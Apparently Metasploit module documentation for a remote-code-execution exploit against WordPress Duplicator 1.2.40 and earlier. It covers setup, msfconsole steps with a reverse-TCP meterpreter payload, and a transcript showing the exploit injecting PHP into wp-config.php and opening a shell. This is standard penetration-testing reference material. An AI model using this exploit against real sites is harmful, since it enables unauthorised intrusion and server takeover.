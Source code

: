 Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the WordPress instance.

## Vulnerable application

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wordpress_duplicator`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running WordPress 4.9.8 with Duplicator 1.2.40

```
msf5 > use exploit/multi/php/wordpress_duplicator 
msf5 exploit(multi/php/wordpress_duplicator) > set RHOSTS 1.1.1.1
RHOSTS => 192.168.56.101
msf5 exploit(multi/php/wordpress_duplicator) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/php/wordpress_duplicator) > set TARGETURI /installer_vuln.php
TARGETURI => /installer_vuln.php
msf5 exploit(multi/php/wordpress_duplicator) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if the wp-config.php file already exists...
[*] This WordPress was not restored. Creating the wp-config.php file...
[*] Successfully created the wp-config.php file!
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (37775 bytes) to 1.1.1.1

meterpreter > sysinfo 
Computer    : debian
OS          : Linux debian 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
Meterpreter : php/linux
```

